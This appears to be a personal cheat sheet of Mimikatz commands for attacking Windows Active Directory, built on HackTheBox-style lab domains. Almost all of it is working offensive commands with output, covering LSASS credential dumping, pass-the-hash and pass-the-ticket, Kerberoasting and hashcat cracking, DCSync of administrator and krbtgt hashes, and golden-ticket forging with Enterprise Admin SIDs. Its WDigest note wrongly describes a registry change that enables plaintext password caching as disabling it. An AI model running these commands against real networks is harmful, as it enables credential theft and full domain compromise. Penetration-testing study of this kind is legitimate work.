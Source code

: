 ```yaml
---
tags:
  - windows
  - PtH
  - PtT
  - kerberoasting
  - dcsync
  - sid-abuse
---
```

# Modules
## Logon Passwords
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```
>Note: If the password field is blank, the WDigest might be enabled, you can disable it with:
```powershell
PS > reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
>This needs a restart to decrypt the WDigested passwords.
## Export Tickets
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit
```
# Pass the Hash
Following are required:
- `/user` to authenticate as
- `/rc4` or `/NTLM` hash of the user's password.
- `/domain` the user to impersonate belongs to. If it's local user account, use the computer name, localhost, or a dot (.).
- `/run` - Program to run with the user's context (default cmd.exe).
```powershell
PS > mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<RC4/NTLM HASH> /domain:<domain> /run:cmd.exe" exit
```

# Pass the Key / OverPass the Hash
## Extract Kerberos Keys
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

```powershell
PS > mimikatz.exe privilege::debug "/domain:inlanefreight.htb /user:plaintext /ntlm:<HASH>" exit
```

```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"' exit
```
>**Note:** Instead of opening mimikatz.exe with `cmd.exe` and exiting to get the ticket into the current command prompt, we can use the  `misc` module to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"' exit
PS > Enter-PSSession -ComputerName DC01
```
# Kerberoasting
## Extract TGS Ticket from Memory
If the TGS ticket is in memory (from [[SetSPN]] for example), extract it:
```Powershell
mimikatz > base64 /out:true
mimikatz > kerberos::list /export

<SNIP>
[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
<SNIP>
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================
   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
<SNIP>
```
>Without `base64 /out:true` command, it will extract the tickets in `.kirbi` files, with which we can directly skip to `kirbi2john` step.
## Prepare the file for Cracking
- Clean the base64 and convert to `.kirbi`:
```shell-session
$ echo "<base64 blob>" |  tr -d \\n >> encoded_file
$ cat encoded_file | base64 -d > sqldev.kirbi
$ kirbi2john sqldev.kirbi
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs.hashcat                 # Only if not in correct format
$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb<SNIP>8e71a057feeab
```
## Crack the Hash using [[Hashcat]]
```shell-session
$ hashcat -m 13100 sqldev_tgs.hashcat /usr/share/wordlists/rockyou.txt
```
# DCSync
Mimikatz must be ran in the context of the user who has DCSync privileges and only one user can be attacked at a time.
- Using `runas`
```cmd-shell
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```
- Using 
```powershell
PS > .\mimikatz.exe
mimikatz > privilege::debug
mimikatz > lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
... SNIP ...
	NTLM: <NTLM-HASH>
... SNIP ...
```
# Golden Ticket
- Obtain the KRBTGT Account's NT Hash:
```powershell
mimikatz > lsadump::dcsync /user:LOGISTICS\krbtgt
```
- Get current child domain SID using [[PowerView#[Get-DomainSID](https //powersploit.readthedocs.io/en/latest/Recon/Get-DomainSID/)|Get-DomainSID]]
- Get SID for Enterprise Admins group in the parent domain either with [[ActiveDirectory#[Get-ADGroup](https //docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps)|Get-ADGroup]] or [[PowerView#[Get-DomainGroup](https //powersploit.readthedocs.io/en/latest/Recon/Get-DomainGroup/)|Get-DomainGroup]]:
```powershell
PS > Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
PS > Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
- Request a Golden Ticket:
```powershell
mimikatz > kerberos::golden /user:hacker /domain:<CHILD-DOMAIN-FQDN> /sid:<CHILD-DOMAIN-SID> /krbtgt:<KRBTGT-NTHash> /sids:<ROOT-DOMAIN-ENTERPRISE-ADMIN-SID> /ptt
```
The ticket can be confirmed with [[klist]]. And if the attack is successful, we should be able to read DC's whole C drive!
```powershell
PS > ls \\academy-ea-dc01.inlanefreight.local\c$
```